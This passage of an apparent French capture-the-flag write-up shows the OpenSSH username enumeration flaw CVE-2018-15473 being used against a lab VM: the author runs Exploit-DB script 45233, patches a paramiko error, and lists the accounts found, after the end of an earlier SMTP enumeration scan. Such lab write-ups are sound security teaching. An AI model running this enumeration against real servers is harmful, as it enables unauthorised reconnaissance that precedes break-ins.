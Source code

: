```console
exists.56.102: spinkton
exists.56.102: sholden
exists.56.102: jharraway
192.168.56.102: sswiney exists

######## Scan completed at Sat Dec  1 11:11:11 2018 #########
19 results.

21 queries in 1 seconds (21.0 queries / sec)
```

### SSH Username Enumeration (CVE-2018-15473)

Une vulnérabilité liée à OpenSSH a été rendue publique en août 2018, puis classée sous l'identifiant [CVE-2018-15473](https://nvd.nist.gov/vuln/detail/CVE-2018-15473). En résumé, lors d'une connexion SSH (demande d'authentification du client auprès du serveur), le serveur vulnérable répondra différemment selon si le compte utilisateur fourni existe ou non. De cette manière, tout comme le protocole SMTP, il est possible de déterminer très rapidement si un compte utilisateur existe ou non. La vulnérabilité est bien plus expliquée en détails sur sekurak.pl _[OpenSSH – users enumeration – CVE-2018-15473](https://sekurak.pl/openssh-users-enumeration-cve-2018-15473/)_ ou encore sur le blog de Didier Stevens _[OpenSSH User Enumeration Vulnerability: a Close Look](https://blog.nviso.eu/2018/08/21/openssh-user-enumeration-vulnerability-a-close-look/)_.

Le script utilisé pour ce CTF est celui de [Justin Gardner](https://twitter.com/rhynorater), publié sur [Exploit-DB](https://www.exploit-db.com/exploits/45233) sous la référence 45233. Seul petit problème rencontré : une erreur ```TypeError: 'property' object has no attribute '__getitem__'``` liée semble-t-il à la librairie [paramiko](https://www.paramiko.org/), mais dont la solution a été [publiée sur Github](https://github.com/paramiko/paramiko/issues/1314).

```console
root@blinils:~# python sshUsernameEnumExploit.py --userList drupal_users.txt 192.168.56.102 --outputFile test.txt
Traceback (most recent call last):
  File "sshUsernameEnumExploit.py", line 30, in <module>
    old_parse_service_accept = paramiko.auth_handler.AuthHandler._handler_table[paramiko.common.MSG_SERVICE_ACCEPT]
TypeError: 'property' object has no attribute '__getitem__'

root@blinils:~# sed -i 's/._handler_table/._client_handler_table/g' sshUsernameEnumExploit.py

root@blinils:~# python sshUsernameEnumExploit.py --userList drupal_users.txt 192.168.56.102 --outputFile test.txt
[+] Results successfully written to test.txt in List form.

root@blinils:~# cat test.txt
admin is not a valid user!
anonymous is not a valid user!
sloreman is a valid user!
tmaloney is a valid user!
xbruce is a valid user!
mswanson is a valid user!
jstone is a valid user!
shunter is a valid user!
jingersol is a valid user!
jgrimes is a valid user!
dhart is a valid user!
gprune is a valid user!
jalderman is a valid user!
jgoldman is a valid user!
bdio is a valid user!
hplink is a valid user!
gconnor is a valid user!
sholden is a valid user!
spinkton is a valid user!
```